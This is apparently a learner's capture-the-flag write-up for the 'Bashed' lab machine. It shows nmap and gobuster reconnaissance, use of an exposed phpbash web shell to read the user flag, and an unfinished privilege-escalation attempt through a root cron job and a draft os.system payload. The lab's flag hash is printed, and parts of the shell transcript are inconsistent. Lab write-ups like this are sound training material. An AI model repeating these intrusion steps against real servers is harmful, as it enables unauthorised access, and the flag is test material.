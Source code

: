 # MACHINE CHALLENGE: BASHED

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.68
OS: Linux
```

### NAME OF THE MACHINE AS A HINT?

Something about bash script vulnerability?

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ sudo nmap -A -sS -T4 10.10.10.68 > nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-19 23:44 EST
Nmap scan report for 10.10.10.68
Host is up (0.45s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

So we have 1 open service running - http(80) - Apache httpd 2.4.18 on Ubuntu.

### ENUMERATING PORT 80 (HTTP)

Visiting the webpage we see something called 'Arrexel's Development Site':

```
http://10.10.10.68
```

<img src="index.html.jpg" width=500px/>

##### GOBUSTER

Bruteforce enumeration using `gobuster` yields..

```
$ gobuster -e -u 10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://10.10.10.68/images (Status: 301)
http://10.10.10.68/uploads (Status: 301)
http://10.10.10.68/php (Status: 301)
http://10.10.10.68/css (Status: 301)
http://10.10.10.68/dev (Status: 301)
http://10.10.10.68/js (Status: 301)
http://10.10.10.68/fonts (Status: 301)
```

Poking through each of the discovered directories..

```
/dev/phpbash.min.php
/dev/phpbash.php
/css/carouFredSel.css
/css/clear.css
/css/common.css
/css/font-awesome.min.css
/css/sm-clean.css
/php/sendMail.php
/uploads
/images/ajax-document-loader.gif
/images/arrow.png
/images/favicon.png
/images/logo.png
```

##### PHPBASH.PHP

Reading through some of the scripts, came across `/dev/phpbash.php` that
seemed interesting (around line 102):

```
 <script type="text/javascript">
            var username = "";
            var hostname = "";
            var currentDir = "";
            var commandHistory = [];
            var currentCommand = 0;
            var inputTextElement = document.getElementById('inputtext');
            var outputElement = document.getElementById("output");
            var usernameElement = document.getElementById("username");
            getShellInfo();
            
            function getShellInfo() {
                var request = new XMLHttpRequest();
```

Loading this script appears to give us a session on the machine????

```
http://10.10.10.68/dev/phpbash.php
```

<img src="phpbash.php.jpg" width=500px/>

### OWN USER

Using the `phpbash.php` script as a session into the machine:

```
www-data@bashed :/var/www/html/dev# cd /home
www-data@bashed :/home# ls
arrexel
scriptmanager
www-data@bashed :/home# cd arrexel
www-data@bashed :/home/arrexel# ls
user.txt
www-data@bashed :/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### OWN MACHINE

On the machine, there is a directory called `/scripts` which stands out as an
area of interest as it has a `test.py` script owned by user `scriptmanager`
and a `test.txt` file owned by `root`. Wonder if we can some how use this
setup to copy the `/root/root.txt` file out to a place we can access?

```
www-data@bashed :/# ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 /scripts
www-data@bashed :/# sudo -u scriptmanager ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Dec 19 21:32 test.txt
www-data@bashed :/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
www-data@bashed :/# sudo -u scriptmanager python /scripts/test.py
cat: /root/root.txt.txt: Permission denied
```

Hm.. so I'm stuck.  What I don't know is how to:
1. edit the `test.py` to have the commands I want (e.g. cat /root/root.txt)
```
  import os
  os.system('cat /root/root.txt.txt >> test.txt')
```
2. execute the script with root priviledges

### RETIRED

```
https://medium.com/pentestsec/bashed-bd7804081ae5
```

Seems like the final steps was to:

1. Realize that there is a cronjob that runs any Python script in /scripts
2. Upload a Python script to trigger a reverse shell and wait for it to be run
